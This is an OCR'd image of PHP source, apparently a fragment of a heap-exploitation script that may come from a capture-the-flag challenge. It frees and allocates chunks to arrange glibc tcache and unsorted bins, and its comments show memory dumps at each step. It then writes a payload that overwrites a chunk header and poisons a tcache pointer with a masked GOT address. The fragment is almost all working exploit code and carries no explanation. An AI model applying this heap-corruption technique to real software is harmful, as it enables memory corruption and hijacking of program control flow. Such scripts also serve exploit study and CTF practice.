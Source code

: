```php

del($fp, 1);

// tcache   = NULL <-- 4 <-- 3
// unsorted = [1] (2 gets merged with 1 !!!)

/*
0x0000000000000000 0x0000000000000081
0x000067bd51c19ce0 0x000067bd51c19ce0 [1] [unsorted]
0x3131313131313131 0x3131313131313131
0x3131313131313131 0x3131313131313131

0x0031313131313131 0x0000000000000041
0x000067bd51c19ce0 0x000067bd51c19ce0 [2]
0x3232323232323232 0x3232323232323232
0x3232323232323232 0x3232323232323232

0x0000000000000080 0x0000000000000040
*/


// pop one from tcache, dup bin in sbin and tcache
add($fp, 5, str_repeat("5", SIZE));
del($fp, 2); // middle of chunk

// tcache   = NULL <-- 3 <-- 2
// unsorted = [1]

// Cut a slice of the unsorted pie
add($fp, 6, str_repeat("6", SIZE - 0x10));

/*
0x0000000000000000 0x0000000000000031
0x3636363636363636 0x3636363636363636 [1] [6]
0x3636363636363636 0x3636363636363636

0x0036363636363636 0x0000000000000051
0x000067bd51c19ce0 0x000067bd51c19ce0 [unsorted]
0x000007dfa39c335d 0x347675821c19a36d [2]
0x3232323232323232 0x3232323232323232
0x3232323232323232 0x3232323232323232

0x0000000000000050 0x0000000000000040
*/

// overwrite header of 2
$payload = pack("P*", 0, (SIZE + 8 + 1) | 1, $strlen_got ^ ($heap >> 12));
add($fp, 7, $payload);

/*
0x0000000000000000 0x0000000000000031
0x3636363636363636 0x3636363636363636 [1] [6]
0x3636363636363636 0x3636363636363636

0x0036363636363636 0x0000000000000031
0x0000000000000000 0x0000000000000041 [7]
0x000067bd2c3c769d 0x347675821c19a300 [2]

0x3232323232323232 0x0000000000000021
0x000067bd51c19ce0 0x000067bd51c19ce0 [unsorted]

0x0000000000000020 0x0000000000000040
*/
```